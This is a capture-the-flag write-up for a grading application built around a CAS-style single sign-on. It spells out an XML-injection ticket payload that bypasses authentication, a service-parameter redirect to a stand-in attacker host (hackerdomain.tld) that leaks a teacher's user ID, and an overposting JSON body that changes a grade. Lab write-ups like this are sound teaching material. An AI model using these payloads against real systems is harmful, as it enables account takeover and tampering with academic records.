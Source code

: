 # Writeup
## Inspiration
Based on Apero CAS, CVE-2017-1000071

## SSO Docs
Reading the html of the login page, shows a comment about TODOs which includes updating the swagger docs. Swagger is a common tool for sharing API documentation and can be accessed on /swagger of the sso.
This includes the /register which gives a new account.

## Auth-Bypass
Given the randomly generated student-account given upon request, check the SSO flow
Find the /validate path in swagger docs
Discover the service and ticket params, given the error
Discover the TGT- is needed
Discover the XML injection
Craft bypass ticket
fx http://grade.vcap.me/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>8a998821-31c7-11ed-b7f1-0242c0a8c002</id><username>student57895</username></authenticationSuccess><authenticationFailure>

## Find teacher-userid
Create a login-url for a exfil service
fx http://sso.vcap.me/login?service=http://hackerdomain.tld/example.jpg
Upload as profile-picture instead of base64 url
Trigger teacher-bot to read your message
Use teacher-userid to authenticate as teacher

http://grade.vcap.me/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>2f22e014-3aa1-11ed-9918-0242ac1c0002</id><username>teacher51289</username></authenticationSuccess><authenticationFailure>

## Change grade
Send update with grade change instead of note change. Due to overposting this allows for changing the grade. There is a filter which can be bypassed by uppercasing "Grade":

{"name":"Fundamentals of Cyber Security","values":{"Grade":"A"}}
